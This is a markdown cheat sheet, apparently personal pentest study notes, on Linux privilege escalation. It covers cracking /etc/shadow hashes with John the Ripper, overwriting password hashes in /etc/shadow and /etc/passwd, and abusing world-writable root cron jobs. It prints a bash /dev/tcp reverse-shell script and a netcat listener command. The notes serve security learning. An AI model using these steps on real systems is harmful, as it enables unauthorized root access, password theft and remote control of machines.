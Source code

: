 # Privileges Escalation - Linux

## Sensitive files
- `/etc/shadow` contains user password hashes and is usually readable only by the root user.
  <img src="../imgs/shadow.png" alt="shadowImg" />

  That complex string between the first and second `:` is the hashed password of user "diego".

  - `john --wordlist=/usr/share/wordlists/rockyou.txt <hash.txt>` to try to brute force the hash and convert it into a plain text password.
    - if any worldlist is specified, the default one is `/usr/share/john/password.lst`
    - **UPDATE:** probably John The Ripper could return an error message because it doesn't recognize modern hashes, like `yescrypt`. Check it with `john <file> --format=crypt`
  - `mkpasswd -m sha-512 <new password>` to generate a new hashed password and then replace it.
<br><br>

- `/etc/passwd` contains info about users. It's world-readable, but usually only writable by the root user. 
Some versions of Linux will still allow password hashes to be stored there. We could exploit it in the same way of before. <br>
  <img src="../imgs/passwd.png" alt="passwdImg" />

  That `x` means that any hash is set for user "diego."<br>
  That `/home/diego` is his home directory.<br>
  That `/bin/zsh` is his default shell.



  - `openssl passwd <new password>` to generate a new hashed password and then place it between the first and second `:`, replacing the `x`.
<br><br>

- `/etc/sudoers` contains info about permissions of users and groups. Its usually readable only by the root user.
  <img src="../imgs/sudoers.png" alt="sudoersImg" />
  <br><br>

- `/etc/crontab` is a scheduler of scripts. In this file. the user can schedule the cron jobs (programs to run at specific times or interval).
  <img src="../imgs/crontab.png" alt="crontab">

  Example of cron jobs scheduled to run **as root** every minute:<br>
  <img src="../imgs/cronjobseverymin.png" alt="cronjobseverymin">

  - If one of these cron jobs are world-writable and you're **not** a root user, it's possible to modify and exploit them, for example with a reverse shell like this this one: 
  ```
  #!/bin/bash
  bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
  ```
  - `nc -lvnp <PORT>` on your own Terminal to start a NetCat reverse shell.


## Useful commands
- `su <user>` to switch between users
- `id` to get info about the current user
- `sudo -l` to list programs which sudo allows the current user to run
